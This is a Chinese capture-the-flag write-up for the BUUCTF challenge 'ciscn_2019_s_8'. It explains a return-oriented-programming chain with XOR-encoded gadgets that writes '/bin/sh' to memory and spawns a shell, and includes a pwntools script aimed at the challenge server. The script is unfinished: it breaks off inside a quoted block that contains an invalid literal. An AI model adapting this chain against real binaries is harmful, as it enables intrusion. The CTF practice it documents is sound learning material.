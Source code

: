 # buu194-ciscn_2019_s_8
这道题就是考ROP，一个静态编译，能够找到很多的gadget。下面使用的是`system('/bin/sh')`的方式。首先需要将字符串/bin/sh写到一个地方，通过对程序的逆向分析可以找到read函数的地址。输入完成之后就是调用syscall。尤其需要注意get shell的参数。第一个参数（rdi）保存字符串`/bin/sh`的地址，第二个参数（rsi）保存字符串`sh`的**二重指针地址**，注意是二重指针。因为`/bin/sh`里面已经有`sh`，所以直接可以偏移5个字符，不过我们传入rsi的值应该是保存有这个偏移5个字节的地址的地址，那么之前在写的时候就需要顺便写一个地址值。然后rdx赋值0即可。
另外本题有一个函数会对输入进行处理，经过简单分析即可得知是为每个字节异或0x66，写gadget的时候异或一下就行了。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25478)

poprdi = 0x4006e6
poprsi = 0x4040fe
poprdx = 0x449bf5
poprsp = 0x400d22
poprax = 0x449b9c
poprbx = 0x4005ee
poprcx = 0x400be2
poprdx = 0x449bf5
pushrsp = 0x482997	# call rdx
poprsirbp = 0x40f99e
movrdirbp = 0x422c45	# call rax
syscall = 0x44C177	# pop rdx ; pop rsi
read = 0x449be0
bss = 0x6BC300

payload = cyclic(0x90 + 8 - 8 * 9)

# payload += p64(pushrsp ^ 0x6666666666666666)
# payload += p64(poprdi)

# payload += p64(poprdi ^ 0x6666666666666666)
# payload += p64(bss - 0x300 ^ 0x6666666666666666)
# payload += p64(poprsi ^ 0x6666666666666666)
# payload += p64(0x1000 ^ 0x6666666666666666)
# payload += p64(poprdx ^ 0x6666666666666666)
# payload += p64(7 ^ 0x6666666666666666)
# payload += p64(poprax ^ 0x6666666666666666)
# payload += p64(0xA ^ 0x6666666666666666)
# payload += p64(syscall ^ 0x6666666666666666)

payload += p64(poprax ^ 0x6666666666666666)
payload += p64(0x0 ^ 0x6666666666666666)
payload += p64(poprdi ^ 0x6666666666666666)
payload += p64(0x0 ^ 0x6666666666666666)
payload += p64(poprsi ^ 0x6666666666666666)
payload += p64(bss ^ 0x6666666666666666)
payload += p64(poprdx ^ 0x6666666666666666)
payload += p64(0x100 ^ 0x6666666666666666)
payload += p64(read ^ 0x6666666666666666)
'''
payload += p64(poprax ^ 0x6666666666666666)
payload += p64(0x2 ^ 0x6666666666666666)
payload += p64(poprdi ^ 0x6666666666666666)
payload += p64(0xbss ^ 0x6666666666666666)
payload += p64(poprsi ^ 0x6666666666666666)
payload += p64(0 ^ 0x6666666666666666)
payload += p64(poprdx ^ 0x6666666666666666)
payload += p64(0 ^ 0x6666666666666666)
payload += p64(syscall ^ 0x6666666666666666)
```